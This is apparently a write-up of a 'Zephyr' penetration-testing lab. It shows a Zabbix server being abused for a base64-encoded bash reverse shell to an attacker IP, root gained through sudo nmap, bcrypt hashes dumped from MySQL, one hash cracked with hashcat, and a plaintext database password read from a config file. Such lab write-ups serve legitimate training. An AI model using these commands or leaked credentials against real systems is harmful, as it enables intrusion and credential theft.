

Checking on the host we can find more hosts available on the network:



I will add those host to our identified list and move forward with foothold.

Lastly we can expect to find Marcus account:



* * *

## FootHold:

Now we need to find a way to execute a revshell and get it to us. I will start by starting a nc listening on our machine.

Next checking under Administration -> Scripts we can create custom script that can be used to invoke a reverse shell..



But it's not working so I will create a new Item under localhost:10051 as type script: https://rioasmara.com/2022/04/16/exploit-zabbix-for-reverse-shell/  


It's important to use nowait otherwise it will fail. And adding or event clickin the "Test" should execute the code but unfortunately seems like we can't execute code via that key type:



Next I went back on the previous type and added back a revshell script:



And then going to Dashboard --> Hosts --> Choose the localhost(Zabbix server)

We should be able to choose the new script to execute on any host in theory:



Choosing Backup should invoke a shell, but we get an error: https://unix.stackexchange.com/questions/407798/syntax-error-bad-fd-number

The reason is that payload must be B64 encoded cause some chars are not well seen from Zabbix, so we should be able to transform to:

```
echo -n "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvNDQzIDA+JjE=" | base64 -d | bash
```

And we have a shell working now!

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.110.35] 65513
bash: cannot set terminal process group (33131): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@zephyr:/$
```

* * *

## PE:

Now on first control seems like there is only Zabbix and Root, but we know that Docker is involved as well:

```
zabbix@zephyr:/$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:ea:fa brd ff:ff:ff:ff:ff:ff
    inet 192.168.210.13/24 brd 192.168.210.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:eafa/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:ac:c8:4d:31 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
zabbix@zephyr:/$
```

I will upload linpeas and check everything that is interesting here. Unfortunately I can´t make it work have some issues with HTTP server but checin what can zabbix do we cans see he have sudo permisisons over nmap:

```
zabbix@zephyr:/$ sudo -l
sudo -l
Matching Defaults entries for zabbix on zephyr:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User zabbix may run the following commands on zephyr:
    (root) NOPASSWD: /usr/bin/nmap
zabbix@zephyr:/$
```

And as usual following the guide from GTFOBins we have a root access:

```
zabbix@zephyr:/tmp$ TF=$(mktemp)
TF=$(mktemp)
zabbix@zephyr:/tmp$ ls
ls
agent
something.sh
systemd-private-38e1a84b76ec48398263f963528585ed-ModemManager.service-FuGQ4i
systemd-private-38e1a84b76ec48398263f963528585ed-systemd-logind.service-EgB9ci
systemd-private-38e1a84b76ec48398263f963528585ed-systemd-resolved.service-RIVebi
systemd-private-38e1a84b76ec48398263f963528585ed-systemd-timesyncd.service-czl8Te
systemd-private-38e1a84b76ec48398263f963528585ed-upower.service-ZlS8uj
tmp.zlAT8q6mUr
vmware-root_570-2998936411
zabbix_agentd.log
zabbix_agentd.pid
zabbix_server_alerter.sock
zabbix_server_availability.sock
zabbix_server_lld.sock
zabbix_server.log
zabbix_server.pid
zabbix_server_preprocessing.sock
zabbix@zephyr:/tmp$ echo 'os.execute("/bin/sh")' > $TF
echo 'os.execute("/bin/sh")' > $TF
zabbix@zephyr:/tmp$ sudo /usr/bin/nmap -script=$TF
sudo /usr/bin/nmap -script=$TF
Starting Nmap 7.80 ( https://nmap.org ) at 2023-09-12 20:19 UTC
NSE: Warning: Loading '/tmp/tmp.zlAT8q6mUr' -- the recommended file extension is '.nse'.

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

And like that we have another flag:

```
drwx------  2 root root 4096 Dec  8  2022 .ssh
cat flag.txt
ZEPHYR{Abu51ng_d3f4ul7_Func710n4li7y_ftw}
```

* * *

## POST:

Now this machine seems very void as there is no other users but I decided to try to login into MYSQL running in backgroup hoping that root doesn't need a credentials and apparently it's possible:



Next targeting the Zabbix DB, and more specifically the table users we can dump all the password hashes:

```
mysql> select * from users;
select * from users;
+--------+----------+--------+---------------+--------------------------------------------------------------+-----+-----------+------------+---------+---------+---------+----------------+-----------------+---------------+---------------+----------+--------+
| userid | username | name   | surname       | passwd                                                       | url | autologin | autologout | lang    | refresh | theme   | attempt_failed | attempt_ip      | attempt_clock | rows_per_page | timezone | roleid |
+--------+----------+--------+---------------+--------------------------------------------------------------+-----+-----------+------------+---------+---------+---------+----------------+-----------------+---------------+---------------+----------+--------+
|      1 | Admin    | Zabbix | Administrator | $2y$10$BH90bGVo2lv948WpM1haruzrBgVCpzEL5av9BPCewd/Q2pM1Ybl.q |     |         1 | 0          | default | 30s     | default |              0 | 192.168.210.100 |    1647985367 |            50 | default  |      3 |
|      2 | guest    |        |               | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |     |         0 | 15m        | default | 30s     | default |              0 |                 |             0 |            50 | default  |      4 |
|      5 | marcus   | Marcus | Thompson      | $2y$10$dHMYveVV/xZoM5sc9cPHGe4xUukdyOM91C.LJ8TrpRQA3s1eXhm4. |     |         0 | 0          | default | 30s     | default |              0 |                 |             0 |            50 | default  |      2 |
+--------+----------+--------+---------------+--------------------------------------------------------------+-----+-----------+------------+---------+---------+---------+----------------+-----------------+---------------+---------------+----------+--------+
3 rows in set (0.00 sec)
```

Now that Admin and guest might be not that relevant but marcus account might be crackable and maybe we could re-use his password?

```
$2y$10$dHMYveVV/xZoM5sc9cPHGe4xUukdyOM91C.LJ8TrpRQA3s1eXhm4.:!QAZ2wsx
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$dHMYveVV/xZoM5sc9cPHGe4xUukdyOM91C.LJ8TrpRQA...eXhm4.
Time.Started.....: Tue Sep 12 22:30:35 2023 (58 secs)
Time.Estimated...: Tue Sep 12 22:31:33 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      242 H/s (7.80ms) @ Accel:16 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14080/14344385 (0.10%)
Rejected.........: 0/14080 (0.00%)
Restore.Point....: 13824/14344385 (0.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: goodman -> doghouse
Hardware.Mon.#1..: Temp: 85c Util: 97%

Started: Tue Sep 12 22:30:09 2023
Stopped: Tue Sep 12 22:31:35 2023
                                                                                                                                                              
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
```

Yeah we got one more.

Now that we have found our first credentials for zsm.local domain I guess we can move forward to other hosts.

Here I got a tips from a user to save the DB password used by zabbix:

```
root@zephyr:/var/www/html/conf# cat zabbix.conf.php
cat zabbix.conf.php
<?php
// Zabbix GUI configuration file.

$DB['TYPE']				= 'MYSQL';
$DB['SERVER']			= 'localhost';
$DB['PORT']				= '0';
$DB['DATABASE']			= 'zabbix';
$DB['USER']				= 'zabbix';
$DB['PASSWORD']			= 'rDhHbBEfh35sMbkY';
```